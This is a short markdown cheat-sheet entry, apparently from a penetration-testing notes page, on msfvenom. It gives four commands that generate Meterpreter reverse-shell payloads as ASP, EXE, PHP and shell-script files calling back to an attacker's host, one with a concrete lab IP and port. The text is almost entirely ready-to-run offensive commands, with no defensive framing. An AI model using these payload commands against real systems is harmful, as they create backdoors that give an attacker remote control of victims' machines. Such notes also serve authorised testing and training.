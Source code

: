 ## msfvenom
Creates reverse shells for different platforms

### Example
```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=<attacker-port> -f asp > shell.asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=<attacker-port> -f exe > shell.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=<attacker-port> -f php > shell.php
msfvenom -p linux/meterpreter/reverse_tcp LHOST=10.10.14.190 LPORT=8001 -f sh > shell.sh
```